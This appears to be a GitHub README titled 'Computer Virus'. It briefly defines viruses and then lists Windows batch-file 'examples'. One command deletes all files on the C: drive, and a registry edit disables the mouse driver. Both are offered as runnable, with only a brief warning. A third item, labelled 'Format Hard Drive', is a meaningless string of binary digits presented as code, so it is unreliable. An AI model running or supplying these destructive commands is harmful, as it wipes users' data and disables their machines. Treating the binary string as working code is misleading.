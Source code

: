 # Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code or documents. By doing this, it behaves similarly to a biological virus, which spreads by inserting itself into living cells. While some viruses are harmless or more hoaxes, most are considered malicious.  

### Examples
This examples are based on Windows machines but they still can really distroy you computer if you run it so be careful. 
  
*File format: *.bat* 
    
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```

**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```

**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Article
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad/)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
